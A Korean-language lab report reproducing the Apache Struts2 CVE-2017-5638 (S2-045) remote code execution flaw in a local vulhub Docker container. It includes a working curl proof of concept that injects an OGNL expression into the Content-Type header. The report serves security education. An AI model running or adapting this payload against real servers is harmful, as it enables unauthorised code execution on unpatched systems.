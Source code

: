 # CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서
## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

## 3. 실습 과경
3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

## 4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

## 5. 느낀점
이번 실습을 통해 도커로 취약한 환경을 빠르게 구성하고, 실제 취약점이 어떻게 악용될 수 있는지를 직접 체험할 수 있었다. Struts2처럼 널리 사용되는 프레임워크에서도 입력값 검증이 제대로 안 되면 큰 문제가 발생할 수 있다는 점을 실감했다. 실습을 진행하면서 PoC 과정이 생각보다 간단해서 보안 관리의 중요성을 다시 느꼈다.

## 6. 참고 자료
Vulhub Struts2 S2-045 환경
CVE-2017-5638 상세정보 - NVD

## 7. GitHub 레포 링크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045

* pdf 변환 시 이미지가 보이지 않아서 깃허브에만 넣어놓겠습니다. 죄송합니다.
